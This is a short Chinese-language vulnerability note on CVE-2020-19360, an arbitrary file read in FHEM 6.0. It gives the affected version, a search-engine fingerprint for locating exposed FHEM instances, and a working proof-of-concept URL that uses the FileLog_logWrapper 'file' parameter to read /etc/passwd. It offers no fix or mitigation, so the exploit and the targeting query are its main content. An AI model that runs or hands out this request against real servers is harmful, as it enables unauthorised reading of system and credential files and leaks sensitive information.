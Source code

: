 # Fhem FileLog_logWrapper 任意文件读取漏洞 CVE-2020-19360

## 漏洞描述

FHEM在6.0版本中存在文件包含漏洞，该漏洞源于允许FHEM/FileLog_logWrapper file参数允许攻击者包含文件，攻击者可以利用此漏洞导致敏感信息泄露。

## 漏洞影响

```
FHEM 6.0
```

## 网络测绘

```
title=="Home, Sweet Home"
```

## 漏洞复现

主页面

![image-20220524144941606](./images/202205241449644.png)

验证POC

```
/fhem/FileLog_logWrapper?dev=Logfile&file=%2fetc%2fpasswd&type=text
```

![image-20220524144955698](./images/202205241449759.png)